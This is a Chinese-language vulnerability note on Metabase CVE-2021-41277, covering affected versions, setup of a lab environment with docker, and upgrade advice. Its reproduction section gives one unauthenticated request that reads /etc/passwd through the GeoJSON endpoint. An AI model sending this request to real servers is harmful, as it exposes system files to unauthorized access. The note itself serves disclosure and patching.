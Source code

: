 
# 0X00 漏洞信息
Metabase 是一个简单、开源的数据分析平台。Metabase 是基于 AGPL 协议的开源项目，其提供了多种安装方式，包括 docker 镜像、Mac、和 jar 包，安装几乎没有门槛，是一个简单而强大的分析工具，让任何人都可以从他们公司的数据中学习和做出决策。数据分析人员通过建立一个“查询”（Metabase 中定义为 Question）来提炼数据，再通过仪表盘（Dashboards）来组合展示给公司成员。攻击者可在未经身份验证的情况下获取系统敏感信息。<br />在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息。


# 0X01 漏洞概述
| 漏洞名称 | Metabase 敏感信息泄露漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2021-41277 |
| CNVD编号 |  |
| CNNVD编号 |  |
| 其他编号 |  |
| 披露时间 | 2021.09.15 |
| 分数 | 7.5 |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2021-41277](https://nvd.nist.gov/vuln/detail/CVE-2021-41277) |


# 0X02 影响范围
**受影响版本：**<br />metabase version < 0.40.5<br />metabase version >= 1.0.0, < 1.40.5

**修复版本：**<br />metabase version >= 0.40.5<br />metabase version >= 1.40.5


# 0X03 环境搭建
```javascript
docker pull vulfocus/metabase-cve_2021_41277:latest
docker run -d -p 8080:3000 docker.io/vulfocus/metabase-cve_2021_41277
```

也可通过 [http://vulfocus.fofa.so/](http://vulfocus.fofa.so/) 进行测试。


# 0X04 代码审计
暂无


# 0X05 漏洞复现
```javascript
http://192.168.1.40:8080/api/geojson?url=file:/etc/passwd
```
![image-20211122111233436.png](_img/assets/1660288163008-95480280-46b9-4200-8cdd-c7150f60fada.png)



# 0X05 POC
暂无


# 0X06 解决方案
参考漏洞影响范围，及时升级至最新安全版本：[https://github.com/metabase/metabase](https://github.com/metabase/metabase)
